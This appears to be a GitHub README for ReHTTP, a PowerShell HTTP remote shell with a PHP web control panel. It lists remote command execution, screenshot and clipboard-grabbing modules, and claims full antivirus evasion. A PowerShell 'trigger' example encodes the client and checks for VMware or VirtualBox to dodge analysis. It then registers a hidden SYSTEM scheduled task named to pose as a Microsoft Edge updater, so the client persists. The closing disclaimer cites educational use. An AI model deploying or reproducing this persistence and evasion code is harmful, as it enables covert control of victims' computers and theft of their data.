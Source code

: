 




﻿
<h3 align="center"><img src="https://s28.picofile.com/file/8463031418/favicon.png" alt="logo" height="250px"></h3>
<p align="center">
    <b>ReHTTP</b><br>
    </p>
<hr>
<p align="center">
  <b> Simple Powershell Http shell With WEB UI </b>
    </p>
<p align="center">
  <a href="https://php.net">
    <img src="https://img.shields.io/badge/php-8.0.7-green" alt="php">
  </a>
  <a href="#">
    <img src="https://img.shields.io/badge/platform-Windows-red">
  </a>
    <a href="https://www.codefactor.io/repository/github/jxroot/ReHTTP">  <img src="https://www.codefactor.io/repository/github/jxroot/ReHTTP/badge" alt="CodeFactor" /> </a>
   

   

  
</p>
<p><img src="https://s28.picofile.com/file/8463024792/main.png" alt="enter image description here"></p>
<h2 id="shell">🤟 Main</h2>

<ul>
<li>Client list</li>
<li>System Info</li>
<li>Client Status</li>
<li>Set Label</li>
<li>Remove Client</li>
<li>Module</li>
<li>Variable</li>
<li>Event</li>
</ul>
<h2 id="shell">💎 Shell</h2>
<p><img src="https://s29.picofile.com/file/8463025868/shell.png" alt="shell tab demo">
<br></p>
<b>Run Powershell Command And You Can Add Command in Scheduled  </b>
<ul>
<li>Shell Access</li>
</ul>
<h2 id="Module">📟 Module</h2>
<p align="center"><img src="https://s29.picofile.com/file/8463025900/modules.png" alt="enter image description here"></p>
<p align="center"><img src="https://s29.picofile.com/file/8463026284/screenshot.png" alt="enter image description here"></p>
<p align="center"><img src="https://s29.picofile.com/file/8463026126/edi.png" alt="enter image description here"></p>
<b>Run Powershell Code as Function Or Module </b></p>
<pre>note : for use template edit $SERVER_URL in Code</pre>
<ul>
<li>Add Module</li>
<li>Edit Module</li>
<li>Delete Module</li>
--------------templates-----------------------
<li>Beep Sound</li>
<li>MessageBox</li>
<li>Download Current Background</li>
<li>Get System IdleTime</li>
<li>Get System LastInput</li>
<li>Get Public IP</li>
<li>Get-Clipboard</li>
<li>Set-Clipboard</li>
<li>Screenshot</li>
<li>OpenLink</li>
</ul>
<h2 id="Module">🧮 Variable</h2>
<p align="center"><img src="https://s29.picofile.com/file/8463026176/variable.png" alt="enter image description here"></p>

<p align="center"><img src="https://s29.picofile.com/file/8463026184/variables.png" alt="enter image description here"></p>
<b>Run PHP Code as Variable And Use In PowerShell Script</b></p>
<ul>
<li>Add Variable</li>
<li>Edit Variable</li>
<li>Delete Variable</li>
--------------templates-----------------------
<li>random</li>
</ul>
<h2 id="History">📜 History</h2>
<p><img src="https://s29.picofile.com/file/8463026276/history.png" alt="enter image description here"></p>
<b>if Your Client Break You Can Remove Last Command /:</b></p>
<ul>
<li>Show Command And Module</li>
<li>Remove Command</li>
<li>Re Execute Command</li>
</ul>
<h2 id="History">🪄 Event</h2>
<p align="center"><img src="https://s29.picofile.com/file/8463026318/event.png" alt="enter image description here"></p>
<b>Run Custom Command </b></p>
<ul>
<li>First Connection ( Init )</li>
<li>Every Connection ( UP )</li>
<li>Destroy ( Destroy )</li>
</ul>
<h2 id="dependency">🛠 Dependency</h2>
<ul>
<li>PHP 5.4 And Higher</li>
<li>Mysql</li>
</ul>
<h2 id="Antivirus">🦠 Antivirus</h2>
<p><img src="https://s29.picofile.com/file/8463026484/fD0Idrg5jVZx.pnل" alt="enter image description here"></p>
<b>FUD Scan Time + Run Time :)</b>
<h2 id="installation-and-usage">💿 Installation And Usage</h2>
<p>1- Edit $SERVER_URL in Client.ps1</p>
<p>2- Run ps1 script</p>
<p>3- Create Database </p>
<pre class=" language-bash"><code class="prism  language-bash"><span class="token function">git</span> clone https://github.com/jxroot/ReHTTP.git
<span class="token function">cd</span> ReHTTP/Server/
php -S 127.0.0.1:8000 
</code></pre>
<p align="center"><img src="https://s29.picofile.com/file/8463060076/setup.png" alt="enter image description here"></p>
Triger Example For Client
<pre class=" language-bash"><code class="prism  language-bash">
$s = Get-Content client.ps1 | Out-String
$j = [PSCustomObject]@{
  "Script" = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($s))
} | ConvertTo-Json -Compress
$oneline = "[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(('" + $j + "' | ConvertFrom-Json).Script)) | iex"
$c = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($oneline))
$template = '
$VM=get-wmiobject win32_computersystem |select -ExpandProperty Model
if(($VM -NotLike "*VMware*") -and ($VM -NotLike "VirtualBox")){
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument " -NoLogo -NonInteractive -NoProfile -ExecutionPolicy Bypass -Encoded  '+ $c + '" 
$trigger = New-ScheduledTaskTrigger -AtStartup 
$settings = New-ScheduledTaskSettingsSet -Hidden
$user = New-ScheduledTaskPrincipal -UserId "SYSTEM" -RunLevel Highest  
Register-ScheduledTask -TaskName "MicrosoftEdgeUpdateTaskMachineUAS" -TaskPath "\"  -Action $action -Settings $settings -Trigger $trigger -Principal $user
Start-ScheduledTask -TaskName "MicrosoftEdgeUpdateTaskMachineUAS" 
}

'
New-Item -Path . -Name evil.ps1 -Value $template -Force

</code></pre>
<h2 id="operating-systems-tested">💻 Operating Systems Tested</h2>
<ul>
<li>Windows 7</li>
<li>Windows 10</li>
<li>Windows 11</li>
</ul>
<h2 id="youtube-tutorials">📹 YouTube Tutorials</h2>
<p><a href="https://youtu.be/U9xNnd3XtMc">How Install And Usage ReHTTP</a></p>

<h2 id="next-update">🔱 Next Update</h2>
<ul>
<li>fix  ui bugs</li>
<li>clean code </li>
<li>add event for distroy</li>
<li>add multi exec command for client</li>
<li>upload and  download module</li>
<li>async command</li>
<li>scheduled task ( Date )</li>
<li>background task </li>
<li>ui for system information and manage like hiorbit</li>
<li>add file manager </li>
<li>security (xss,csrf,rce,login page,...)</li>
</ul>
<h2 id="contact">📧 Contact</h2>
<p >
<a href="https://t.me/amajax"><img title="Telegram" src="https://img.shields.io/badge/Telegram-black?style=for-the-badge&logo=Telegram"></a>
<a href="https://www.youtube.com/channel/UC0-QcOXgzRgSfcE3zerwu9w/?sub_confirmation=1"><img title="Youtube" src="https://img.shields.io/badge/Youtube-red?style=for-the-badge&logo=Youtube"></a>
<a href="https://www.instagram.com/sectoolfa"><img title="Instagram" src="https://img.shields.io/badge/Instagram-white?style=for-the-badge&logo=Instagram"></a>

## ⚠️ Legal & Ethical Disclaimer

🚨 This tool is developed strictly for educational and authorized security testing purposes only.

🔬 It is intended to help cybersecurity professionals, researchers, and enthusiasts understand post-exploitation, red teaming, and detection techniques in lab or controlled environments.

❌ Do NOT use this tool on any system or network without explicit permission. Unauthorized use may be illegal and unethical.

🛡 The author takes no responsibility for any misuse or damage caused by this project.

---

> Always hack responsibly. 💻🔐
